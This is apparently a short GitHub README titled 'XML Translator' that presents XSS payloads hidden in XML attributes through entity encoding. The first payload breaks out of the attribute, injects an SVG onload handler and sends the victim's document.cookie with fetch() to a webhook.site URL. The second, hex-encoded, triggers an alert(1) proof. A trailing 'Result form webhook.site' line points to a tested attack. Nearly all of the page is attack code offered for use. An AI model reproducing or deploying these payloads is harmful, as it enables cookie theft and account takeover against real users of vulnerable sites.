

# XML Translator


<h3 style="color:rgba(255, 111, 111, 1); ">Using Html Entities</h3>
<hr>

```
<?xml version="1.0"?>
<root test="&quot;&gt;&lt;svg xmlns=&quot;http://www.w3.org/2000/svg&quot; onload=&quot;fetch(&apos;https://webhook.site/60e3c5b1-b862-4bf7-b9d7-6c484caf7fef/?c=&apos;+document.cookie)&quot;&gt;&lt;/svg&gt;&lt;x&quot;"></root>

```
<h3 style="color:rgba(255, 111, 111, 1);">Using Html Hexadecimal Entities</h3>
<hr>

```
<?xml version="1.0"?>
<root test="&#x22;&#x3e;&#x3c;&#x73;&#x76;&#x67;&#x20;&#x78;&#x6d;&#x6c;&#x6e;&#x73;&#x3d;&#x22;&#x68;&#x74;&#x74;&#x70;&#x3a;&#x2f;&#x2f;&#x77;&#x77;&#x77;&#x2e;&#x77;&#x33;&#x2e;&#x6f;&#x72;&#x67;&#x2f;&#x32;&#x30;&#x30;&#x30;&#x2f;&#x73;&#x76;&#x67;&#x22;&#x20;&#x6f;&#x6e;&#x6c;&#x6f;&#x61;&#x64;&#x3d;&#x22;&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;&#x22;&#x3e;&#x3c;&#x2f;&#x73;&#x76;&#x67;&#x3e;&#x3c;&#x78;&#x22;"></root>
```

Result form webhook.site: 




